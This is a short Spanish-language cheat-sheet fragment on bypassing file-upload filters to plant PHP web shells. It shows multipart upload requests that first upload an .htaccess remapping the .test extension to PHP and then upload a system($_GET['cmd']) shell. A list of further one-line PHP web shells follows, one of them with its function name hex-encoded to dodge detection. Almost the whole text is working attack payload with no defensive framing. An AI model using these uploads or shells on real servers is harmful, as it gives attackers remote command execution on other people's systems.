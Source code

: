-- -
1. Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess" 
    Content-Type: text/plain
    AddType application/x-httpd-php .test 
2. 
	Content-Disposition: form-data; name="fileToUpload"; filename="cmd.test" 
	Content-Type: application/x-php
	
	<?php
		system($_GET['cmd']);
	?>
**Otro tipo de webshells en php:**

```php
<?=`$_GET[0]`?>

<?php
	$c=$_GET['cmd'];
	 echo `$c`;
?>

<?php
	"system"("id");
?>

<?php
	"\x73\x79\x73\x74\x65\x6d"($_GET['cmd']);
?>
```